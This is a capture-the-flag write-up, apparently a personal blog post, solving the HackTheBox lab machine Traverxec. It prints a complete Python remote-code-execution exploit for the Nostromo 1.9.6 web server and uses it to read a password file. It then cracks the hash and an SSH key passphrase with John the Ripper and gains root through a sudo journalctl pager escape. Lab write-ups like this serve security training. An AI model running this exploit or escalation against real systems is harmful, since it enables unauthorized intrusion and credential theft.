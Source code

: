 ```yaml
---
title: HackTheBox Traverxec
author: Marius Kimmina
date: 2020-04-11 14:10:00 +0800
categories: [HackTheBox]
tags: [BSD]
published: true
---
```


# 0x0 Introduction
Yet another HTB box and again one of the easier ones. This time we had to exploit a vulnerable nostromo webserver version for command execution and then escalate privileges from there. 
![image](/assets/images/traverxec_htb_info.png "Traverxec Logo")

# 0x1 Getting a foothold

Starting of as usual with a nmap scan I got the following result: 

```
# Nmap 7.80 scan initiated Mon Feb 10 08:20:59 2020 as: nmap -sV -sC -oA nmap/nmap 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.0061s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 10 08:21:11 2020 -- 1 IP address (1 host up) scanned in 12.31 seconds
```

I had never heard of nostromo before but a quick google search told me that it's an open source webserver that is common on BSD and is also called nhttpd.  
When I searched for the version number I immediately found an RCE vulnerability and a python script to exploit it.  

```py
#!/usr/bin/env python

import socket
import argparse

parser = argparse.ArgumentParser(description='RCE in Nostromo web server through 1.9.6 due to path traversal.')
parser.add_argument('host',help='domain/IP of the Nostromo web server')
parser.add_argument('port',help='port number',type=int)
parser.add_argument('cmd',help='command to execute, default is id',default='id',nargs='?')
args = parser.parse_args()

def recv(s):
	r=''
	try:
		while True:
			t=s.recv(1024)
			if len(t)==0:
				break
			r+=t
	except:
		pass
	return r
def exploit(host,port,cmd):
	s=socket.socket()
	s.settimeout(1)
	s.connect((host,int(port)))
	payload="""POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1""".format(cmd)
	s.send(payload)
	r=recv(s)
	r=r[r.index('\r\n\r\n')+4:]
	print r

exploit(args.host,args.port,args.cmd)
```

The vulnerability here is a path traversal that allows us to reach /bin/sh
Which is also very simple to use 

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "whoami"

www-data
```


# 0x2 getting the user.txt

As www-data I usually first want to look in our own directory because that's were we are most likely to have access. so thats /var/nostromo in this case.  
In there I found a conf directory and was able to extract a hash from the .htpasswd file inside.

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "cat /var/nostromo/conf/.htpasswd"

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Copied the credentials over to my maschine and asked my friend john if he could tell me something about them

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ cat pwfile 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ john --wordlist=/usr/share/wordlists/rockyou.txt pwfile 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:00:24 DONE (2020-02-10 09:50) 0.04027g/s 426034p/s 426034c/s 426034C/s NuiMeanPoon..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we have password "Nowonly4me". First thing I tested with this password was ssh of course, but sadly david did not use that as his ssh password.  
Going further throught the nhttpd.conf I found the following:

```
# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd
```

This stells us that we can use the password to authenticate at the Website, the question left to be answered is where on the Website.
looking at the Nostromo documentation I found that users get a path on the Webserver, here the relevant part of the docs:

```
HOMEDIRS
To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the home directories are stored, normally /home. To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:
http://www.nazgul.ch/~hacki/
The content of the home directory is handled exactly the same way as a directory in your document root. If some users don't want that their home directory can be accessed via HTTP, they shall remove the world readable flag on their home directory and a caller will receive a 403 Forbidden response. Also, if basic authentication is enabled, a user can create an .htaccess file in his home directory and a caller will need to authenticate.
You can restrict the access within the home directories to a single sub directory by defining it via the homedirs_public option.
```

so the /~david/ path did exists but didn't show us anything interesting, we need some kind of file name which we could find in /home/david/public_www/ the fiel we need is called protected-file-area (I knew the public_www existed because it said so in the nostromo config file)

The next step was to go to http://10.10.10.165/~/david/protected-file-area, there we could use the 'nowonly4me' password and we got his ssh-key which we could then again decrypt with john

```
$ python3 /usr/share/john/ssh2john.py id_rsa > johnfile
```

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2020-02-10 10:50) 0.3597g/s 5158Kp/s 5158Kc/s 5158KC/sa6_123..*7¡Vamos!
Session completed
```

log in with ssh
```
$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Mon Feb 10 04:51:07 2020 from 10.10.14.2
david@traverxec:~$
```


# 0x3 getting the root.txt

In davids "bin" directoy I found an interesting script 

```bash
$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Here I only care about the last line "/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat" which means we can execute this journalctl command as root and if we do that, without piping it into cat, we invoke the default pager, most likely "less", as root. And inside of less we can execute "!/bin/sh" that will run as root and thus give us a root shell. 

```
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service;
-- Logs begin at Tue 2020-02-11 01:12:26 EST, end at Tue 2020-02-11 02:02:57 EST. --
Feb 11 01:12:29 traverxec nhttpd[422]: started
Feb 11 01:12:29 traverxec nhttpd[422]: max. file descriptors = 1040 (cur) / 1040 (max)
Feb 11 01:12:29 traverxec systemd[1]: Started nostromo nhttpd server.
Feb 11 02:01:17 traverxec sudo[1626]: pam_unix(sudo:auth): authentication failure; logname= uid
Feb 11 02:01:53 traverxec sudo[1626]: www-data : command not allowed ; TTY=pts/1 ; PWD=/usr/bin
!/bin/sh
# whoami
root
```